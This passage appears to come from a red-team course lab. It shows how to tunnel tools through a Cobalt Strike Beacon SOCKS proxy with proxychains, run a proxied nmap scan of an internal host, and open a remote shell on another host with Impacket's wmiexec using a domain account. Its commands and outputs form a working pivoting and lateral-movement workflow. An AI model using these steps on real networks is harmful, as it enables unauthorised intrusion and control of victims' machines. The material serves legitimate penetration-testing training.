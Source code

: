 `proxychains` is a tool which acts as a wrapper around other applications to tunnel their traffic over a socks proxy.  First, we need to modify its configuration file to point to our Cobalt Strike socks proxy.
```
attacker@ubuntu ~> sudo vim /etc/proxychains.conf
```
  

At the bottom of the file, you will see a default entry for SOCKS4:  `socks4 127.0.0.1 9050`.  We need to change this to match the settings of the proxy we started in Beacon.

- SOCKS4:  `socks4 127.0.0.1 1080`

OR  

- SOCKS5:  `socks5 127.0.0.1 1080 socks_user socks_password`.

To tunnel a tool through proxychains, it's as simple as `proxychains [tool] [tool args]`.  So to tunnel `nmap`, it would be:
```
attacker@ubuntu ~> proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-05 13:31 UTC
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:3389-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:445-<><>-OK
|S-chain|-<>-127.0.0.1:1080-<><>>-10.10.122.10:4444-<--timeout
|S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:5985-<><>>-OK
Nmap scan report for 10.10.122.10
Host is up (0.061s latency).

PORT     STATE  SERVICE
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server
4444/tcp closed krb524
5985/tcp open   wsman

Nmap done: 1 IP address (1 host up) scanned in 15.31 seconds
```
  

There are some restrictions on the type of traffic that can be tunnelled, so you must make adjustments with your tools as necessary.  ICMP and SYN scans cannot be tunnelled, so we must disable ping discovery (`-Pn`) and specify TCP scans (`-sT`) for this to work.

You can also run tools from inside WSL on Windows.
```
ubuntu@DESKTOP-3BSK7NO ~ > proxychains wmiexec.py DEV/jking@10.10.122.30
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:135-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:49667-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
dev\jking

C:\>hostname
web
```